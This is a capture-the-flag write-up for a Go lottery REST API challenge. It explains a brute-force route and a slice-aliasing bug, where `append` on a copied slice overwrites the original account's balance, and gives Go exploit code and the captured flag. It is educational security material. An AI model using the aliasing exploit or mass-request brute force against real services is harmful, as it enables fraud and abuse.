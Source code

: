# The Lottery

The **last solved** challenge at 'Teaser CONFidence CTF 2019'.

## Logic

The challenge is a REST API written in Go. It has a functionality of choosing
a lottery winner along with the accounts *management*.

### Package `app`

Account:
```go
type Account struct {
	Name    string `json:"name"`
	Amounts []int  `json:"amounts"`
}
```

Basically, we may do two things with the account:
 - `Account.AddAmount(50)` adds provided amount (must be wihtin `0-99`),
        also total number of amounts must be less than 5,
 - `Service.LotteryAdd(account)` signs user up to the lottery.

You have two options to get a flag - your account must:
 1. Be a millionaire (sum of amounts > 1,000,000),
 2. Be a lottery's winner.

### Package `transport`

There is implementation of HTTP handlers and routing. All we need to know is:
flag is served with the account of millionaire or lottery winner.

## Vulnerabilities

Let's take a look how exactly `lottery` works.

When we invoke `Service.LotteryAdd` method it passes the copy of `account`
object to lottery. It means we have the same object (literally bytes) in two
places: `lottery` (copy) and `service` (original).


The next step: `lottery.evaluate` loops over previously copied accounts and does:
```go
amounts := append(account.Amounts, randInt(999913, 3700000))
```

Pretty cool. It adds a really big number (~1m) to `account.Amounts`. If only it
could be saved at the 'original' account too...

Then it checks if total sum of amounts and our random number is equal to
`1259264`.

### Solution 1 (brute force)

Regardless of added amounts to account, we have only one value that wins the
lottery (in range `999913-3700000`).

```python
>>> 3700000 - 999913
2700087
```

Theoretically, to get a flag you may just create accounts and after
`LOTTERY_PERIOD` duration check if this user is a lottery winner.

For each try we must do three HTTP requests:
 1. Create an account,
 2. Add account to lottery,
 3. After `LOTTERY_PERIOD` duration check if the account is a winner.

 Let's do a quick math:
```python
>>> 2700087*3        # total number of requests
8100261
>>> 8100261 / 2500   # divide by 2500 rps (are you capable of doing more?)
3240.1044
>>> 3240.1044 / 3600 # how many hours? 
0.90
```

As you can see, it was possible to get a flag within one hour! It wasn't
intended solution, but probably some teams managed to use it.
Congratulations though.

### Solution 2 (go slices)

Let's go back to previously noticed amounts `append` with a big number.
So, how exactly does it work?

We append an `Account`'s attribute which is a `[]int` slice. 
```go
type Account struct {
	Amounts []int // This is a []int slice.
}
```
However, what's a slice? (Worth reading: https://blog.golang.org/go-slices-usage-and-internals)

Definition of slice:
> A slice is a descriptor of an array segment. It consists of a pointer to the
> array, the length of the segment, and its capacity (the maximum length of
> the segment).

![Slice visualization](images/go-slices-usage-and-internals_slice-struct.png)

In fact, a slice is a pointer to the memory and not the memory itself! It means
we are able to write to the *original* `amounts` memory at the lottery.
However, slice is kind of like the `vector` in C++. If you will append the
element over the available capacity, it will reallocate itself to the another
bigger memory chunk. Therefore we must ensure, reallocation won't happen.

Our strategy is creating two slices which point to the same memory. We copy
`Account` struct when adding to the `Lottery`, so the slice will be also
copied. When it comes to the capacity - we need to have such length and
capacity that `append` won't reallocate the slice (and just write to the
memory). `MaxAmountsLen = 4`, so we may exploit it by `capacity=4` and
`length=3`. In this case adding another item will just overwrite fourth element.

Anyway, here is the code:
```go
func HackLottery() {
  // Create new service.
  s := NewService(context.Background(), time.Millisecond, time.Minute)

  // Add new account.
  a, _ := s.AccountAdd()

  // Add '90' amount three times.
  s.AccountAddAmount(a.Name, 90)
  s.AccountAddAmount(a.Name, 90)
  s.AccountAddAmount(a.Name, 90)

  // Right now we have a slice with three values [90, 90, 90]
  // Do you know what's the capacity and length of it?
  // Length=3, Capacity=4.
  // It means that after the next 'append' we won't reallocate to the new memory.

  // We would like to extend our original slice to length=4 and then wait for
  // the lottery's append to overwrite the last item.

  // Add account to the 'Lottery'.
  s.LotteryAdd(a.Name)
  // Immediately after extend 'amounts' slice.
  s.AccountAddAmount(a.Name, 90)

  // 'Lottery.evaluate' should overwrite the last element in the original amounts.
  s.lottery.evaluate()

  // Does it work?
  a, _, _ = s.AccountGet(a.Name)
  fmt.Printf("%v\n", a.Amounts)
  // [90 90 90 1723342]
  // Yay, you are a millionaire.
}
```

Do you know why it doesn't work for slices with capacity less than 4?

## Flag

```sh
$ python hack.py       
p4{fucking-go-slices.com}
```

